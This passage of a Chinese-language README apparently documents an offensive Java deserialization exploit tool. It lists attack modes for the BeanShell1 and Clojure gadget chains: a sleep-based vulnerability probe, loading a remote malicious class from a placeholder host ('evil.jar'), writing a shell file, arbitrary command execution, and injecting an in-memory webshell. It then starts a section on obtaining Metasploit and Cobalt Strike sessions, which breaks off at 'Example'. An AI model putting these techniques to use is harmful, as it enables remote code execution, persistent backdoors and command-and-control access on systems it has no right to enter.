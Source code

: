 ![image-20220618211017835](images/image-20220618211017835.png)

## 其他利用链的拓展

对于 BeanShell1 及 Clojure 这两个基于脚本语言解析的漏利用方式。

本项目为这两条利用链拓展了除了 Runtime 执行命令意外的多种利用方式，具体如下：

- TS ：Thread Sleep - 通过 `Thread.sleep()` 的方式来检查是否存在反序列化漏洞，使用命令：`TS-10`
- RC ：Remote Call - 通过 `URLClassLoader.loadClass()` 来调用远程恶意类并初始化，使用命令：`RC-http://xxxx.com/evil.jar#EvilClass`
- WF ：Write File - 通过 `FileOutputStream.write()` 来写入文件，使用命令：`WF-/tmp/shell#123`
- 其他：普通命令执行 - 通过 `ProcessBuilder().start()` 执行系统命令，使用命令 `whoami`

与之前的扩展类似，这里也不放截图了。

对于 BeanShell1，还通过 ScriptEngineManager 执行 JS 的方式支持回显或内存马的打入。使用方式同上：`EX-`

## MSF/CS 上线

使用 MSF 的上线载荷配合远程 Jar 包调用完成 MSF 上线，后续可转 CS。

**示例**：
